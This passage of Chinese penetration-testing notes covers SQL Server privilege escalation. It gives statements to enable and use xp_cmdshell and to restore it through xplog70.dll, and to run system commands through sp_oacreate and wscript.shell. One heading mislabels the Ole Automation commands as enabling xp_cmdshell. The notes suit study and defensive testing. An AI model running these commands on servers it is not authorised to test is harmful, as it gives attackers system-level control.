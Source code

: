 ```

开启 xp_cmdshell 之后，再次执行 EXEC master.dbo.xp_cmdshell 'whoami' 命令，成功提权到system权限。

##简单总结
xp_cmdshell默认在mssql2000中是开启的，在mssql2005之后的版本中则默认禁止。如果用户拥有管理员sa权限则可以用sp_configure重新开启它。

启用：
EXEC sp_configure 'show advanced options', 1
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

关闭：
exec sp_configure 'show advanced options', 1;
reconfigure;
exec sp_configure 'xp_cmdshell', 0;
reconfigure;

执行：
EXEC master.dbo.xp_cmdshell '命令'

如果xp_cmdshell被删除了，可以上传xplog70.dll进行恢复
exec master.sys.sp_addextendedproc 'xp_cmdshell', 'C:\Program Files\Microsoft SQL Server\MSSQL\Binn\xplog70.dll'
```

##### 使用sp_oacreate进行提权

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\1.txt'
执行命令后，报错提示 sp_oacreate组件 被关闭

那么就使用开启 xp_cmdshell 的命令（只有sa权限才可以开启）
EXEC sp_configure 'show advanced options', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 1;   
RECONFIGURE WITH OVERRIDE;   

开启之后，whoami查看权限

##总结
启用：
EXEC sp_configure 'show advanced options', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 1;   
RECONFIGURE WITH OVERRIDE;   

关闭：
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 0;   
RECONFIGURE WITH OVERRIDE;  

执行：
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\1.txt'

以上是使用sp_oacreate的提权语句，主要是用来调用OLE对象（Object Linking and Embedding的缩写，VB中的OLE对象），利用OLE对象的run方法执行系统命令。
```
